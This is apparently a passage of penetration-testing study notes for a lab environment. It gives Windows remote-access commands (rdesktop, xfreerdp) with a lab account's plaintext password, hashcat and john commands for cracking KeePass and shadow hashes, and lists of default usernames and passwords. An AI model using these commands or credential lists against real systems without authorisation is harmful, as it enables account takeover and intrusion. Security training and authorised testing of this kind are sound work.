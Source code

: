 `wmic/winrm` -> `administrator`

`psexec` -> `system`



rdp 

> for win11 & non domain-joined machine, can only use `xfreerdp`

```
rdesktop 192.168.201.247  -u mark -p OathDeeplyReprieve91 -d relia.com

proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard
xfreerdp /d:relia.com /v:192.168.201.247 /u:mark /p:OathDeeplyReprieve91 /cert:ignore
```



## Password Attacks

### General

```
hashcat --show

hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

john --rules=best64 --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

```



#### Weak Credentials

Default Password: https://viperone.gitbook.io/pentest-everything/resources/cheat-sheets/default-passwords

```
admin:admin
<user>:<user>
admin:password
:password
product_name:product_name

# Username
	administrator
	user
	root
	mysql
	offsec
	
	
# Password
	password
	/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt		# 1300 lines
```

